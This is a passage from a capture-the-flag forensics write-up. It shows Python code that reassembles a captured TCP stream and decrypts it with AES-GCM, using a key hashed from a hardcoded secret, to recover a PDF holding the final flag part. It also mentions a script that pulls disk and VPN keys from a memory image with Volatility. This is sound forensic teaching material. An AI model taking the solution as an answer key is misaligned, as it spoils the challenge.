        flags = str(t.flags)
        # Prefer PA (data push) over A (pure ACK w/ zero options padding) at same seq
        if seq not in segments or ("P" in flags and "P" not in segments[seq][1]):
            segments[seq] = (payload, flags)

    ordered = sorted(segments.items())

    # Find the length-prefix frame (PA, 12B, flags has P).
    # It contains: [4B length][8B start-of-nonce]
    # The data segment immediately after gives the rest of the stream.
    length_payload = None
    data_start_seq = None
    for i, (seq, (payload, flags)) in enumerate(ordered):
        if "P" in flags and len(payload) == 12 and i + 1 < len(ordered):
            next_seq = ordered[i + 1][0]
            if next_seq - seq == 4:  # only 4 real bytes → length field
                length_payload = payload[:4]
                data_start_seq = next_seq
                break

    if length_payload is None:
        sys.exit("[-] Could not locate length-prefix frame")

    payload_len = struct.unpack("!I", length_payload)[0]
    status(f"Declared payload length: {payload_len} bytes")
    status(f"Data starts at TCP seq: {data_start_seq}")

    # Accumulate exactly payload_len bytes from data_start_seq onward
    stream = bytearray()
    needed = payload_len
    for seq, (payload, flags) in ordered:
        if seq < data_start_seq:
            continue
        take = min(len(payload), needed)
        stream += payload[:take]
        needed -= take
        if needed == 0:
            break

    return bytes(stream)
```

Finally, we can decrypt the encrypted TCP stream using:

```python
def decrypt_stream(stream: bytes) -> bytes:
    HARDCODED_SECRET = b"https://www.youtube.com/watch?v=oHafFDkFgeg"
    nonce = stream[:12]
    ct_and_tag = stream[12:]
    key = hashlib.sha256(HARDCODED_SECRET).digest()
    status(f"Nonce:  {nonce.hex()}")
    status(f"Key:    {key.hex()}")
    status(
        f"CT+tag: {len(ct_and_tag)} bytes → plaintext will be {len(ct_and_tag) - 16} bytes"
    )
    return AESGCM(key).decrypt(nonce, ct_and_tag, None)
```

The resulting pdf can be opened to reveal the 3rd and final part of the flag!

The script [full_solve.py](./htb/full_solve.py) will invoke volatility, grab the luks/wireguard keys and try to automate everything!

**Notes:**

- If you want to learn more about Volshell, you can visit my [Volshell crash-course](https://blog.alpha-carinae.xyz/posts/volshell/)
- [Volatility as a Library](https://volatility3.readthedocs.io/en/latest/using-as-a-library.html#context-config)
- [IntermediateSymbolTables](https://volatility3.readthedocs.io/en/latest/complex-plugin.html#writing-using-intermediate-symbol-format-files)
